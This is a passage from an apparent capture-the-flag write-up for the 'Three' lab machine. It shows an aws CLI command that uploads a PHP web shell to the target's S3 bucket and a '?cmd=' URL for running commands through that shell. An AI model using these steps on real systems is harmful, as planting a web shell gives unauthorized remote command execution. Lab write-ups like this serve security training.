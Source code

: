 Now is time to upload it.

Type:

```
aws --endpoint=http://s3.thetoppers.htb s3 cp {your shell file name}.php s3://thetoppers.htb
```

![shell](./Screenshots/threewebshell2.png)

Shelle is there. Good.

![shell](./Screenshots/threewebshell3.png)

### Get the flag

Now after typing into browser:

```
http://thetoppers.htb/{your shell file name}.php?cmd={command}
```

we should be able to execute commands.

Let's test it:

![flag](./Screenshots/threeflag.png)

It works.

![flag](./Screenshots/threeflag2.png)
